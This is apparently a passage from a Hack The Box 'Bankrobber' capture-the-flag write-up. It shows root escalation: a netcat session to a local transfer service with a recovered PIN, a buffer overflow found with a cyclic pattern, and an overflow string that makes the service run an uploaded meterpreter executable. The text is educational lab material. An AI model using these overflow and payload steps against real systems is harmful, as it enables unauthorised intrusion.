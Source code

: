 <p>Excellent, we get the pin <code>0021</code> and we are one step closer.</p>

<p>
<img src="{{ '/assets/htb-bankrobber/root-binary2.PNG' | relative_url }}">
</p>

<p>Alright that is interesting, it seems to call a separate transfer executable on the host as part of the process. Let's see if we can run a quick buffer overflow and overwrite the executable.</p>

<p>
<img src="{{ '/assets/htb-bankrobber/root-binary3.PNG' | relative_url }}">
</p>

<p>Now we are talking! Ok, now time to get the exact offset where we can put our own executable.</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Bankrobber# nc localhost 910
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3A
 [$] Transfering $Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3A using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: 0Ab1Ab2Ab3A

 [$] Transaction in progress, you can safely disconnect...
{% endhighlight %}

<p>We can reuse our meterpreter payload setup, creating a payload2.exe with a port of 4445 instead of the default 4444. We upload the executable to the host and then trigger it by supplying the following payload to the bankv2 connection.</p>

{% highlight shell %}
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9AbC:\temp\payload2.exe
{% endhighlight %}

<p>
<img src="{{ '/assets/htb-bankrobber/root-binary4.PNG' | relative_url }}">
</p>

<p>
<img src="{{ '/assets/htb-bankrobber/root-owned.PNG' | relative_url }}">
</p>

<p>
<img src="{{ '/assets/htb-bankrobber/root-owned3.PNG' | relative_url }}">
</p>
